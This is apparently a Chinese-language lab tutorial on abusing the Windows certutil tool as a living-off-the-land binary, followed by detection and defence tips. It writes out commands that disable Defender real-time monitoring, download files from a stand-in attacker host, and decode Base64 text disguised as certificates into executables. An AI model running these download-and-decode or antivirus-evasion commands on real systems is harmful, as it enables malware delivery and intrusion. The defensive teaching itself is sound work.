





以前都會以為 certutil 只是拿來管理憑證跟金鑰的工具，  
甚至上網查也可能只會查到這些功能：

```bash
certutil -store my            # 列出目前使用者的 "my" 憑證存放區
certutil -verify cert.cer     # 驗證憑證
certutil -encode file.bin out.txt   # 將檔案編碼成 Base64
certutil -decode in.txt file.bin    # 將 Base64 檔案解碼
certutil -hashfile file.exe SHA256  # 計算檔案雜湊

```

但開始研究 LOLBAS 後才發現這個工具的功能有很多其他功能，  
甚至還是 LOLBAS 的一個最經典的案例之一，  
所以這篇就來說明這個工具的一些用法吧

## 環境準備

* * *

今天的實作會需要兩台機器：

```
Attacker Machine: Kali
Victim Machine: Windows 11

```

### Attacker Machine (Kali):

```bash
# 建立 payload 目錄
mkdir ~/certutil_demo && cd ~/certutil_demo

# 建立各種測試檔案
echo "calc.exe" > payload.bat
echo "TVqQAAMAAAAEAAAA//8AALgAAAAAAAAAQAAAAAAAAAAA" > fake_exe.txt
echo "-----BEGIN CERTIFICATE-----" > fake_cert.txt
echo "TVqQAAMAAAAEAAAA//8AALgAAAA=" >> fake_cert.txt  
echo "-----END CERTIFICATE-----" >> fake_cert.txt

# 啟動 Web Server
python3 -m http.server 8080

```

### Victim Machine (Windows 11):

```bash
# 基本防護關閉（測試環境）
New-Item C:\Lab -ItemType Directory -Force
Add-MpPreference -ExclusionPath C:\Lab
Set-MpPreference -DisableRealtimeMonitoring $true

```

## Certutil 三個隱藏功能＆特色

* * *

### 一直接下載

其實 certutil 也可以拿來下載檔案：

```bash
# 標準下載
certutil.exe -urlcache -f http://<attacker ip>:8080/payload.bat C:\Lab\update.bat

# 參數：
# -urlcache：使用 URL 快取功能（就是這個讓下載成為可能）
# -f：強制覆寫已存在的檔案
# -split：可以加這個參數來分割大檔案

# <attacker ip> 記得要用 ip a 先看過再換進去

```


  
  
我們可以在 Kali 上看到檔案在 certutil 後成功下載到 Windows 11 上了

### 二Base64 解碼器

Certutil 除了可以下載檔案之外，還能拿來解碼，  
所以攻擊者也可以先在外面先包好 malware，  
繞過檢測之後再進去打開：

```bash
# 下載 Base64 編碼的文字檔
certutil -urlcache -f http://<attacker ip>:8080/fake_exe.txt C:\Lab\encoded.txt

# 解碼成執行檔
certutil -decode C:\Lab\encoded.txt C:\Lab\malware.exe

```



### 三偽裝成憑證處理

基本上跟前面加密繞過很像，  
只是 Certutil 本質上就是在處理憑證相關，  
所以包成憑證來去繞過也是個好方法：

```bash
# 下載憑證（其實是 Base64 編碼的惡意程式）
certutil -urlcache -f http://<attacker ip:8080/fake_cert.txt C:\Lab\cert.crt

# 處理憑證（其實在解碼）
certutil -decode C:\Lab\cert.crt C:\Lab\update.exe

```



## 那有可以防禦的方法嗎？

* * *

其實如果要防禦或偵測的話，  
可以從下面幾個特徵來下手，

### Certutil 惡意活動關鍵特徵

1.  命令列參數：`-urlcache` + `-f` + `http` = 基本上就有問題了
2.  網路連線：certutil.exe 連到非 Microsoft 網域
3.  檔案活動：在 %TEMP% 或 %APPDATA% 建立可執行檔
4.  後續行為：certutil 之後立即有新程序啟動

### 查看痕跡

```bash
# 檢查 URL 快取
certutil -urlcache *

# 查看事件日誌
Get-WinEvent -FilterHashtable @{LogName='Security'; ID=4688} | 
Where-Object {$_.Message -match 'certutil.*urlcache'}

# 檢查下載的檔案
Get-ChildItem C:\Lab -File | Select Name, CreationTime, Length

```



### 防禦建議

1.  AppLocker 規則：限制只有 IT 管理員能執行 certutil
2.  網路監控：Alert 任何 certutil.exe 的對外連線
3.  行為分析：certutil 後面接著新程序執行 -> 怪怪的可以多注意

## 總結！

* * *

Certutil 是 LOLBAS 的經典代表，因為它：

*   Windows 內建，有合法數位簽章
*   功能強大（下載+編碼解碼）
*   用途模糊（管理憑證 or 下載檔案）

p.s 正常使用 certutil 不會需要 `-urlcache`，所以看到這個參數通常就要多注意了